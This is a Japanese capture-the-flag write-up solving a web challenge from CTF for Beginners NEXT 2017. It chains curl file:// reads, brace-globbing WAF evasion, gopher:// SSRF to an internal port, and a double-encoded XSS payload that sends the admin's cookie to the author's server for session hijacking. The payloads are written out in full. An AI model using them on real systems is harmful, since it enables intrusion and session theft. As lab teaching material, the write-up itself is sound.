 # CTF for Beginners NEXT 2017
## はじめに
このwriteupはCTF for Begginers nextでのweb問題のものです。

## 解き方
### 1. サイトの概要を調べる
* 所謂魚拓サイト。
* サイトのURLを送信するとサイト一覧に追加され、そのサイト一覧をクリックすると、サーバ側そこにアクセスしてレスポンスを表示する。

### 2. どこに脆弱性があるかの目安をつける
#### ページ書かれていることを読むと…
> Posted gyotakus are checked by admin
  * **XSSの問題 ?**
#### 適当に`hoge`と送信して、そのページに移動すると…
> curl: (6) Could not resolve host: hoge
  * **内部でcurlが使われている…だと！？**
    * curlをうまく使って、攻撃？
#### `<script>`とかを送信すると…
> Forbidden
  * **WAFが使われている？？**
    * パターンをうまく外してあげれば？？

### 3. curlを悪用して、ファイルを読み取る
#### curlのおぞましい機能
##### 多量のプロトコルに対応
  * fileが使える…？
    * file://etc/passwd
    * file://etc/apache2/apaches.conf

##### `{}`を使った機能
  * http://{A,B}.com
    => http://A.com http://B.com
  * http://{A}.com
    => http://A.com
    * WAFのパターンから外せる…？

##### 実際に送信してみると…
```file:///etc/{apache2}/apache2.conf```

```
ProxyPass / http://127.0.0.1:9999/
ProxyPassReverse / http://127.0.0.1:9999/
```

`127.0.0.1:9999`に直接投げ込めばOK ?

### 4. curlでオプションを使わずにPOSTを投げる
* **gopher**を使ってtcpでhttp postを書いてけばいける？
* [いい感じに%コーディングしてくれるスクリプト](https://gist.github.com/nicklegr/b55035f9c7aaef4788c3fe3b308cadb4) が便利！
  * nicklegr様ありがとうございます。

#### とりあえずHTTP GETを投げてみる
送信してみてWAFに引っかかった部分は、`{}`で囲みました。
##### コード
```
def encode(str)
  str
    .gsub(" ", "%20")
    .gsub("\n", "%0d%0a")
end

cmd = "curl gopher://localhost:9999/_" + encode(<<-EOD)
GET / HTTP/1.{1}
{Host}: localhost:9999
EOD

puts cmd
```
##### 送信した文字列
```
gopher://localhost:9999/_GET%20/%20HTTP/1.{1}%0d%0a{Host}:%20glocalhost:9999%0d%0a
```

#### 次はPOSTでサイトを追加する
##### コード
```
def encode(str)
  str
    .gsub(" ", "%20")
    .gsub("\n", "%0d%0a")
end

cmd = "curl gopher://localhost:9999/_" + encode(<<-EOD)
GET /new HTTP/1.{1}
{Host}: localhost:9999
{Content-Length}: 5
{Content-Type}: application/x-www-form-urlencoded
{Cookie}: session=自分のセッション

url=http://example.com
EOD

puts cmd
```

##### 送信した文字列
```
gopher://localhost:9999/_POST%20/new%20HTTP/1.{1}%0d%0a{Host}:%20localhost:9999%0d%0a{Content-Length}:%2022%0d%0a{Content-Type}:%20application/x-www-form-urlencoded%0d%0a{Cookie}:%20session=自分のセッション%0d%0a%0d%0aurl=http://example.com
```

### 5. XSSを投げるぞい
自分のサーバをたてて、そのサーバに対して管理者のクッキーを投げるように仕向ける。

#### その前に問題点
##### <script>に気づかれてしまった
もう一度コーディングする  
`<script>` => `%3C script %3E` => `%253C script %253E`

##### document.cookieもだめ
`document.cookie` => `document%252ecookie`

#### コード
```
def encode(str)
  str
    .gsub(" ", "%20")
    .gsub("\n", "%0d%0a")
end

cmd = "curl gopher://localhost:9999/_" + encode(<<-EOD)
POST /new HTTP/1.{1}
{Host}: localhost:9999
{Content-Length}: リクエストボディの文字数
{Content-Type}: application/x-www-form-urlencoded
{Cookie}: session=自分のクッキー

url=%253cscript>location.href="自分のサイトのURL/%3fa="%252bdocument%252ecookie%253c/script>
EOD

puts cmd
```
#### 送信した文字列
```
gopher://localhost:9999/_POST%20/new%20HTTP/1.{1}%0d%0a{Host}:%20localhost:9999%0d%0a{Content-Length}:%2094%0d%0a{Content-Type}:%20application/x-www-form-urlencoded%0d%0a{Cookie}:%20session=自分のクッキー%0d%0a%0d%0aurl=%253cscript>location.href="自分のサイトのURL/%3fa="%252bdocument%252ecookie%253c/script>
```

#### 結果
管理者のセッションがゲットできた！！
> session=293e53ca013fb6ece2ef7d773905495e503bf3ba38781363a504b21f0a3248e3

### 7. 管理者としてアクセス
Develover Tools -> Application -> Cookies のセッションを管理者のセッションにして再読込み！
そうするとフラグが見える！

> FLAG{cURL__is__GOD}
